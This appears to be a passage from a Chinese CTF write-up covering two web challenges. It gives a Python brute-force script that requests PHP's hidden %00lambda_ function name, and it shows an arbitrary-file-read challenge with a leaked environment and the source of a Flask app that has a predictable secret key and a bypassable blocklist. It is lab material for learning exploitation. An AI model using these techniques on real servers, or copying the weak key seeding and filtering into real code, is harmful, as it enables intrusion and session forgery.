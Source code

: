 ```

```

## 0x02 [SUCTF 2018]annonymous

```
匿名函数其实是有真正的名字，为%00lambda_%d(%d格式化为当前进程的第n个匿名函数,n的范围0-999)
```

脚本爆破 

```
import requests

for x in range(1000):
    payload = "http://4252621c-2a39-4f00-8bb4-445529a3257d.node4.buuoj.cn:81/?func_name=%00lambda_1"
    r=requests.get(payload)
    '''
    %d是持续递增的，这里的%d会一直递增到最大长度直到结束，通过大量的请求来迫使Pre-fork模式启动
Apache启动新的线程，这样这里的%d会刷新为1，就可以预测了
    '''
    if 'flag' in r.text:
        print(r.text)
        break
    print('Testing.......')
```

## 0x03 [CISCN2019 华东南赛]WEB-4

是个任意文件读取了易上手。

首先读取环境变量

```
LANG=C.UTF-8SHELL=/bin/ashSHLVL=1WERKZEUG_RUN_MAIN=trueCHARSET=UTF-8PWD=/appWERKZEUG_SERVER_FD=3LOGNAME=glzjinUSER=glzjinHOME=/appPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPS1=\h:\w\$ PAGER=less
```

标准的python配置。

```
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
```